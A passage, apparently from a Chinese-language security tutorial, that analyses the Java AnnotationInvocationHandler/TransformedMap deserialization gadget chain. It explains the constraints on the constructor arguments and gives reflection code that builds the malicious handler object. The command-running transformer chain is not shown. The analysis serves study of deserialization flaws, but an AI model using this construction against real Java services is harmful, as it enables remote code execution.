 从`var1.isAnnotation()`可以看到AnnotationInvocationHandler构造函数的第一个参数必须是一个元注解类型,可以选择以下四种
```
@Target
@Retention
@Documented
@Inherited
```
```
Entry var5 = (Entry)var4.next();
String var6 = (String)var5.getKey();
Class var7 = (Class)var3.get(var6);
if (var7 != null) {
    setValue(xxxxx)
}
```
接下来,`var4.next()`拿到了我们outMap中的的value->value,对应上边的代码可以看出必须要从var3中可以拿到值才能使var7不为空进入setValue部分。
程序获取var3的代码为`Map var3 = var2.memberTypes();`,跟进memberTypes()
![-w1054](media/15662017023838/15663118694815.jpg)
这里就需要var2的长度至少为1才能进入循环为memberTypes进行put操作，var1从以下方法中获得`var1.getDeclaredMethods();`，即第一个参数至少要有一个方法，而@Documented和@Inherited中没有方法，所以AnnotationInvocationHandler构造函数的第一个参数只能选择Target.class或者Retention.class,Target.class和Retention.class包含的函数名均为value,所以需要var6的值必须为`value`，也就是构造的TransformedMap中的key需要是`value`,不能是其他，然后AnnotationInvocationHandler构造函数第二个参数放入构造好的TransformedMap即outMap。

构造AnnotationInvocationHandler的代码如下：
```
Map innerMap = new HashMap();
innerMap.put("value", "a");
Map outMap = TransformedMap.decorate(innerMap, null, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
Object instance = constructor.newInstance(Target.class, outMap);
```
